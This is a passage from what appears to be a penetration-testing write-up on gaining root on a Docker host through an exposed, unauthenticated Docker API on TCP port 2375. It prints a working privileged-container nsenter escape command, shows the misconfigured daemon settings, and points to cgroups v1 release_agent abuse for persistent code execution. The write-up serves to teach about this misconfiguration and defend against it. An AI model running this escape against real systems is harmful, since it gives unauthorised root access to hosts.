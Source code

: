 The exposed TCP port also allows us to spawn a temporary container that immediately enters the namespace of PID 1. Note that, in this approach, we also have to 

```
docker -H 10.10.20.228:2375 run --rm -it --pid=host --privileged alpine \
  nsenter --target 1 --mount --uts --ipc --net /bin/bash
```

Regardless of the method, we have access to the host as the root user.

Using `cat`, we can prove that the host admin has configured the Docker daemon to listen over the network.

```
~# cat /etc/docker/daemon.json
{
  "hosts": ["tcp://0.0.0.0:2375", "unix:///var/run/docker.sock"]
}

~# cat /etc/systemd/system/docker.service.d/override.conf
[Service]
 ExecStart=
 ExecStart=/usr/bin/dockerd --config-file /etc/docker/daemon.json
```

As noted earlier, the `daemon.json` and systemd `docker.service` configuration are not set to this by default.

Informationally, we should also explore the system and find the OS version:

```
# uname -a
Linux 00379fa24a9d 5.15.0-1022-aws #26~20.04.1-Ubuntu SMP Sat Oct 15 03:22:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
# cat /etc/os-release
NAME="Ubuntu"
VERSION="20.04.5 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.5 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal
```

Indeed, this is an instance of Ubuntu 20.04. Why is this important to know? 

One big reason is because Ubuntu 20.04 uses the "hybrid" implementation of cgroups v1 and v2. Cgroups v1 introduces the `release_agent` and `notify_on_release` behaviors (defined in [Section 1.4 of the official cgroups v1 documentation](https://www.kernel.org/doc/Documentation/cgroup-v1/cgroups.txt)).

Although this was intended to allow custom "cleanup" behaviors for cgroups, an attacker could leverage a custom release agent to achieve persistent remote-code execution. Understandably, modern Linux distributions have moved entirely to [cgroups v2, which retired the `release_agent` and `notify_on_release` behaviors](https://man7.org/conf/lca2019/cgroups_v2-LCA2019-Kerrisk.pdf).
